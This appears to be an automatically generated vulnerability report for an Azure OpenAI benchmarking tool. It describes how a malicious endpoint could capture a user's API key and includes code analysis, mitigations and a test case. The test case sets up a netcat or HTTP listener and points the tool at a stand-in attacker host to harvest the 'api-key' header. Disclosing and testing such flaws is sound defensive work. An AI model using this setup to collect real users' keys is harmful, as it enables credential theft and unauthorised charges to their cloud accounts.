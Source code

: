 ### Vulnerability List:

* Vulnerability Name: API Key Exposure through Malicious Endpoint
* Description:
    1. An attacker crafts a malicious endpoint that mimics the expected behavior of an Azure OpenAI service for the benchmarking tool.
    2. The attacker then socially engineers a user into using this malicious endpoint URL with the benchmarking tool. This could be achieved through phishing, misleading instructions, or other social engineering techniques.
    3. The user, believing they are running a legitimate benchmark, executes the tool with their valid Azure OpenAI API key and the attacker's malicious endpoint URL.
    4. The benchmarking tool, as designed, sends requests to the specified endpoint, including the Azure OpenAI API key in the `api-key` header for authentication.
    5. The attacker's malicious endpoint captures and logs the incoming request headers, including the user's Azure OpenAI API key.
    6. The attacker now has access to the user's Azure OpenAI API key, which can be used to access and utilize the user's Azure OpenAI resources.
* Impact:
    Compromise of the user's Azure OpenAI API key. This allows the attacker to:
    * Access the user's Azure OpenAI service and resources.
    * Incur costs on the user's Azure subscription by making requests to the OpenAI service.
    * Potentially access or manipulate any data or models associated with the compromised Azure OpenAI resource, depending on the permissions associated with the API key.
* Vulnerability Rank: High
* Currently Implemented Mitigations:
    * None in the code itself.
    * The `README.md` file includes warnings that the code is for testing purposes only and should not be used in production. However, it does not specifically address the risk of API key exposure through malicious endpoints.
* Missing Mitigations:
    * Input validation for the `--api-base-endpoint` command-line argument to ensure it points to a trusted Azure OpenAI endpoint. While complete validation is difficult, basic checks like ensuring the domain is within `openai.azure.com` could be implemented as a starting point.
    * Explicit warning in the `README.md` and command-line help output about the security risks of using the tool with untrusted endpoints and the potential for API key exposure.
    * Consider alternative methods for authentication during benchmarking that do not involve sending the API key to the endpoint if feasible, although this might be complex given the current design of Azure OpenAI authentication.
* Preconditions:
    * The attacker must successfully socially engineer a user to run the benchmarking tool against a malicious endpoint.
    * The user must have a valid Azure OpenAI API key configured in the `OPENAI_API_KEY` environment variable.
    * The user must execute the benchmarking tool with the `--api-base-endpoint` argument pointing to the attacker's malicious endpoint.
* Source Code Analysis:
    1. **`benchmark/oairequester.py`**: The `OAIRequester` class is responsible for making requests to the Azure OpenAI endpoint.
    2. `__init__(self, api_key: str, url: str, backoff=False)`: The constructor takes the `api_key` and `url` as input and stores them as instance attributes.
    3. `async def call(self, session:aiohttp.ClientSession, body: dict) -> RequestStats`: This method sends the API request.
    4. `headers = {"api-key": self.api_key, ...}`:  The `api_key` provided during `OAIRequester` initialization is directly included in the request headers.
    5. `response = await session.post(self.url, headers=headers, json=body)`: The request is sent to `self.url`, which is taken directly from user input via command-line argument, with the API key in the headers.

    ```
    User Input (Command Line): --deployment gpt-4 <MALICIOUS_ENDPOINT_URL>
        |
        V
    benchmark/loadcmd.py:_run_load()
        |
        V
    OAIRequester Initialization: OAIRequester(api_key, <MALICIOUS_ENDPOINT_URL>)
        |
        V
    benchmark/oairequester.py:call()
        |
        V
    HTTP Request to <MALICIOUS_ENDPOINT_URL> with 'api-key' header
        |
        V
    Attacker's Malicious Endpoint: Receives request and captures 'api-key' header
    ```

* Security Test Case:
    1. **Setup Attacker Server:** On a machine controlled by the attacker, start a simple HTTP server that listens on port 8080 and logs all incoming request headers. For example, using Python:
        ```bash
        python -m http.server 8080
        ```
        Or using `netcat`:
        ```bash
        mkfifo /tmp/req
        while true; do nc -l -p 8080 < /tmp/req | tee /tmp/req; done
        ```
    2. **Prepare Benchmarking Environment:** On a separate machine (the user's machine):
        * Set the environment variable `OPENAI_API_KEY` to a **dummy but realistic-looking API key** (e.g., `sk-xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx`). **Do not use a real API key.**
        * Clone the benchmarking tool repository and install the requirements.
    3. **Execute Benchmarking Tool with Malicious Endpoint:** Run the benchmarking tool's load command, replacing `<ATTACKER_IP>` with the IP address of the attacker's server:
        ```bash
        python -m benchmark.bench load --deployment gpt-4 http://<ATTACKER_IP>:8080
        ```
    4. **Analyze Attacker Server Logs:** Check the logs of the HTTP server running on the attacker's machine.
    5. **Verify API Key Exposure:** The logs should contain a POST request to `/openai/deployments/gpt-4/chat/completions`. Within the headers of this request, you should find the `api-key` header, and its value should be the dummy API key you set in step 2. This confirms that the API key is transmitted to the attacker-controlled endpoint.